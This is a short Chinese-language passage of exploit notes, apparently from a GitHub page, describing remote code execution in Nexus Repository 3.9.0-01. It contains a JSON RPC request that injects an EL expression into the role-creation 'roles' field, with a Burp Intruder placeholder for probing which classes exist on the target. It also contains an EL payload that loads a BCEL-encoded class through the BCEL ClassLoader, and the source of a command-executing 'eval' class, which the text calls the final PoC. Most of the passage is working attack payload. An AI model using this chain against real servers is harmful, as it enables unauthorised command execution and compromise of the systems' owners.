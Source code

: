  

- 判断目标环境可以找到的恶意class

  burp intruder 爆破下 判断 class 在目标中是否存在

  ```json
  {"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"11","name":"1111","description":"1","privileges":[],"roles":["${''.class.forName('$burp intruder here$')}"]}],"type":"rpc","tid":19}
  ```



-  com.sun.org.apache.bcel.internal.util.ClassLoader

  目标环境 nexus3:3.9.0-01 javax.el-api/2.2.5   可以找到恶意class `com.sun.org.apache.bcel.internal.util.ClassLoader`

  jackson 的payload 是调用 ClassLoader 的 loadClass方法 加载编码后的恶意class 导致rce

  > https://paper.seebug.org/543/

  这里用el 表达式表述就是

  ```java
  ${''.class.forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('$$BCEL$evalClass').newInstance()}
  ```

  到这即完成了全部利用 加载恶意类，触发rce

  最终poc

  eval.class 

  ```java
  
  import java.io.*;
  
  public class eval {
      public eval() {
  
      }
  
      public String exec(String cmd) throws IOException {
          StringBuilder stringBuilder = new StringBuilder();
          BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
          String line;
          while((line = bufferedReader.readLine()) != null) {
              stringBuilder.append(line).append("\n");
          }
          String res = stringBuilder.toString();
          return res;
      }
      public static void main(String[] args) {
      }
  }
  ```
